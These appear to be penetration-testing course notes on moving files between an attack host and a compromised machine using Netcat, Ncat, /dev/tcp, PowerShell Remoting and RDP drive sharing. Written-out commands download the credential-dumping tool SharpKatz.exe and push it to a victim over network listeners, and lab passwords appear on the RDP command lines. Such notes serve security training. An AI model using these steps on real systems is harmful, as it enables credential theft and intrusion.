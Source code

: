 ## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000
```sh
$ # Redirect stdout with > to SharpKatz.exe
$ nc -l -p 8000 > SharpKatz.exe
```

#### Ncat - Compromised Machine - Listening on Port 8000
```sh
# Close the connection (--recv-only) once file transfered
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

*  The option `-q 0` will tell Netcat to close the connection once it finishes
* If we use Ncat in our attack host, we can use `--send-only` instead of `-q`. `--send-only` in both connect and listen modes causes Ncat to quit when its input runs out

#### Ncat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File
```sh
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File
```sh
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### NetCat - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```sh
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer
* When HTTP, HTTPS, or SMB are unavailable
* We can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations
* To create a PowerShell Remoting session
	* We need administrative access
	* Be a member of the `Remote Management Users` group
	* Or have explicit permissions for PowerShell Remoting in the session configuration

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

* Confirm WinRM port TCP 5985 is Open on

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

* Store the results in the variable named `$Session`

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
* Tools: `xfreerdp` or `rdesktop`
* Can be used to expose a local folder in the remote RDP session

#### Mounting a Linux Folder Using rdesktop
```sh
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp
```sh
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

* To access the directory, we can connect to `\\tsclient\`

![](Screenshot_2022-10-21_215825.png)

